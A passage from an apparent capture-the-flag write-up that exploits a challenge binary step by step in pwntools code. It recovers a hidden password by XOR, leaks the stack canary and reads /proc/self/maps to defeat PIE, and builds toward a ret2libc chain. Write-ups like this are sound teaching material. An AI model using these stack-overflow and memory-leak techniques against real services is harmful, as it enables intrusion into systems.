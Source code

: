we can reverse it to get the password:

```python
op = [0x3F,0xB,0x27,0x33,0x41,0x4F,0x3B,0x1B,0x21,0x32,0x73,0x79,0x2B,0x3A,2,0x38,0x1D,3,4,0x49,0x61,0x58]
password = []
max = len(op) - 1
password.append(op[max])
for i in range(0, len(op)):
    password.append(password[i] ^ op[max-1])
    max -= 1
d = []
for i in range(0, len(password)):
    d.append(chr(password[len(password)-1 -i]))
real_pwd = "".join(d)
real_pwd = real_pwd[1::]
real_pwd = real_pwd[0:14:] + "P" + real_pwd[14::]
```

#### Stage 2. Leaking canary

Later to do ret2libc, we need to bypass canary checking. So we will leak the canary and use it in our exploit.

```python
pad = "B"*8*4
pload_leak_canary = real_pwd.ljust(0x20, "A") + "C"*8 + pad + 'X'
sendpwd(r, pload_leak_canary)
r.recvuntil(pad)
canary = u64(r.recv(8)) - ord('X')
```

#### Stage 3. Leaking program base

The binary is protected by several mechanism including PIE that will randomizes base address for program segment in memory. We can overwrite filename variable in stack, make it point to `/proc/self/maps` and we leak pie base for program. Then we get address of `puts`' function, `puts`' GOT, `pop rdi, ret` gadget, and `main`. We still want to trigger RCE after program's `main`'s returned, so make program jump back to `main` function. 

```python
pload_leak_pie = real_pwd.ljust(0x20, "A") + "/proc/self/maps\x00"
sendpwd(r, pload_leak_pie)
p = "0x" + r.recvuntil("-")[:-1:]
e.address = int(p, 16)
puts = e.plt['puts']
got_puts = e.got['puts']
pop_rdi_ret = e.address + 0x10a3 #0x00000000000010a3 : pop rdi ; ret
main = e.address + 0xEAD
```

#### Stage 4. Leaking libc base

One gadget rce lies on libc segment,we need to leak libc's base address. We still want to trigger RCE after program's `main`'s returned, so make program jump back to `main` function.
